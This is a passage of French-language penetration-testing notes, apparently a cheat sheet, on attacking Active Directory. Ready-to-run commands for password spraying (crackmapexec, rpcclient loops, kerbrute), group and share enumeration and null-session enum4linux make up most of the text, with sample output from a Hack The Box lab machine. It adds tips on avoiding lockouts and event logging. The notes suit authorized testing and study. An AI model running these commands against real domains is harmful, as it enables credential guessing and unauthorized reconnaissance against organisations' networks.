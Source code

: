 Cet utilitaire tente très rapidement tous les utilisateurs de la liste.

Il ne génère par d'évènement dans un AD configuré avec les options par défaut.

#### Attaques

Lorsqu'on dispose d'une liste de comptes utilisateurs, on peut ensuite essayer de trouver leur mots de passe associés.

##### Password Spraying

**Attention** :

- toujours vérifier la politique de mot de passe en place (voir plus haut) avant de tenter un password spraying.
- ne pas tenter le nombre maximum de tentatives autorisées !
- `cme [...] --users`  affiche le nombre de mauvaise saisie des compteurs d'authentification (a exécuter sur le PDC emulator pour avoir l'information centralisée de tous les DCs)

Attaque à partir d'une liste d'utilisateurs avec un mot de passe `$AD_PASSWORD`

```shell
# crackmapexec
cme smb $TARGET_IP -u users.txt -p $AD_PASSWORD --local-auth --continue-on-success | grep '+'

# rpcclient
for u in $(cat users.txt);do rpcclient -U "$u%$AD_PASSWORD" -c "getusername;quit" $TARGET_IP | grep Authority; done

# kerbrute
kerbrute passwordspray -d $AD_DOMAIN --dc $TARGET_IP users.txt  "$AD_PASSWORD"
```

## Groupes

```shell
# Liste de tous les groupes
cme smb $TARGET_IP -u "" -p "" --groups
# Liste des membres d'un groupe
cme smb $TARGET_IP -u "" -p "" --groups "Domain Admins"
```

## Partages
##### Enumération

```shell
cme smb $TARGET_IP -u "" -p "" --shares
cme smb $TARGET_IP -u "$AD_USER" -p "$AD_PASSWORD" -d "$AD_DOMAIN"  --shares | cut -c60-
```

```shell
# 
cme smb $TARGET_IP  -u 'guest' -p '' --shares | cut -c60-
      [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
      [+] sequel.htb\guest: 
      [+] Enumerated shares
      Share           Permissions     Remark
      -----           -----------     ------
      ADMIN$                          Remote Admin
      C$                              Default share
      IPC$            READ            Remote IPC
      NETLOGON                        Logon server share 
      Public          READ            
      SYSVOL                          Logon server share 
# Authentification NULL
enum4linux -a -u "" -p "" $TARGET_IP

enum4linux-ng -A -R -C <IP>
```
